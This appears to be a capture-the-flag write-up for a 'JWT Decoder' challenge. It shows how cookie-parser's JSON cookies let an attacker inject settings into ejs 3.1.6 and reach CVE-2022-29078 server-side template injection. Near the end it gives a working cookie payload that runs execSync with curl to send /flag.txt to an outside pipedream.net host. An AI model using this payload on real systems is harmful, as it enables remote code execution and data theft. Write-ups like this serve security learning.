

# JWT Decoder

## Description

## Solution

It is a simple JWT decoder service.



As the description suggests, I first looked into `package-lock.json` and searched CVEs for each of them.

```json
      "dependencies": {
        "cookie-parser": "^1.4.6",
        "ejs": "^3.1.6",
        "express": "^4.17.3"
      }
```

I encounter the [CVE-2022-29078](https://www.cvedetails.com/cve/CVE-2022-29078/), which is capable of RCE via SSTI on `ejs`. The details are well written [here](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

```
The ejs (aka Embedded JavaScript templates) package 3.1.6 for Node.js allows server-side template injection in settings[view options][outputFunctionName]. This is parsed as an internal option, and overwrites the outputFunctionName option with an arbitrary OS command (which is executed upon template compilation).
```

The point is we need to make `rawJwt` have `settings` in it.

```javascript
    res.render('index', rawJwt);
```

The only way to do so is reach below line. If we can make `req.cookies.jwt` as `object` with `settings` in it, the code will fail to parse it and eventually leave `settings` in it, but how to do that?

```javascript
    let rawJwt = req.cookies.jwt || {};

    try {
        // ...
    } catch(error) {
        if (typeof rawJwt === 'object') {
            rawJwt.error = error;           // this line
        } else {
```

@KSAlpha RTFM of [cookie-parser](https://www.npmjs.com/package/cookie-parser) and found very interesting feature like below.

```
In addition, this module supports special "JSON cookies". These are cookie where the value is prefixed with j:. When these values are encountered, the value will be exposed as the result of JSON.parse. If parsing fails, the original value will remain.
```

We ended up with this payload and got the flag. @KSAlpha, again, pointed out that we should url-encode `;` as `%3B` not to be interpreted as the separator for `Cookie` HTTP header.

```
j:{"settings": {"view options": {"outputFunctionName": "x%3Bprocess.mainModule.require('child_process').execSync('curl https://en4eruf2w138.x.pipedream.net/`cat /flag.txt`')%3Bs"}}} 
```

## Flag
`SCTF{p0pul4r_m0dule_Ar3_n0t_4lway3_s3cure}`